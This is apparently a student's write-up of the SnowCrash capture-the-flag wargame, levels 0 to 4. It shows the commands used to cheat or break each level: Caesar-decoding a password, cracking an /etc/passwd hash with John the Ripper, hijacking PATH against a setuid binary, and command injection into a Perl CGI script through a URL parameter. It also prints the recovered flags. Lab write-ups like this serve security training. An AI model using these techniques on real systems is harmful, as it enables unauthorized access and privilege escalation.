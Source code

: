 # snow-crash

## level-0
```bash
level00@SnowCrash: find / -user "flag00" 2> /dev/null 
/usr/sbin/john
/rofs/usr/sbin/john
level00@SnowCrash:~$ cat /usr/sbin/john 
cdiiddwpgswtgt
```

https://www.dcode.fr/chiffre-cesar
nottoohardhere

```bash
level00@SnowCrash: su flag00
Password: nottoohardhere
Don't forget to launch getflag !
flag00@SnowCrash:~$ getflag
Check flag.Here is your token : x24ti5gi3x0ol2eh4esiuxias
```
## level-1
```bash
level01@SnowCrash:~$ cat /etc/passwd


flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash

vim hash.txt
```
utilisation de johntheripper
```bash                                                                                                              
john hash.txt 
Created directory: /home/ju/.john
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 256/256 AVX2])
Will run 12 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 642 candidates buffered for the current salt, minimum 3072 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst
abcdefg          (flag01)     
1g 0:00:00:00 DONE 2/3 (2025-01-15 17:11) 50.00g/s 3750Kp/s 3750Kc/s 3750KC/s 123456..2nesbitt
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
on recupere abcdefg

```bash
level01@SnowCrash:~$ su flag01
Password: abcdefg
Don't forget to launch getflag !
flag01@SnowCrash:~$ getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
flag01@SnowCrash:~$
```
## level-2

```bash
└─$ scp -P 4242 level02@192.168.1.36:/home/user/level02/level02.pcap .                           


wireshark level02.pcap 
```
ft_wandr...NDRel.L0L(0d)(000d0a)(01)

7f

ft_wandr...NDRel.L0L(0d)(000d0a)(01)
ft_waNDReL0L(0d)(000d0a)(01) 
ft_waNDReL0L
```bash
level02@SnowCrash:~$ su flag02
Password: 
Don't forget to launch getflag !
flag02@SnowCrash:~$ getflag
Check flag.Here is your token : kooda2puivaav1idi4f57q8iq
flag02@SnowCrash:~$ 
```

## level-3

Une fois l executable decompilé avec ghidra
```c
int main(int argc,char **argv,char **envp)

{
  __gid_t __rgid;
  __uid_t __ruid;
  int iVar1;
  gid_t gid;
  uid_t uid;
  
  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  iVar1 = system("/usr/bin/env echo Exploit me");
  return iVar1;
}
```

("/usr/bin/env echo Exploit me");

on voit un appel systeme sur echo 
on change le path pour executer la commande getflag
whereis getflag
changement du path: echo '/bin/getflag' > '/tmp/echo'
unset PATH
export PATH=/tmp
./level03

flag='qi0maab88jeaj46qoumi7maus'

## level-4
```bash
level04@SnowCrash:~$ cat level04.pl
```
```perl
#!/usr/bin/perl
#localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
script perle vulnerable a l'injection de commande donc :
```bash
level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
## level-5


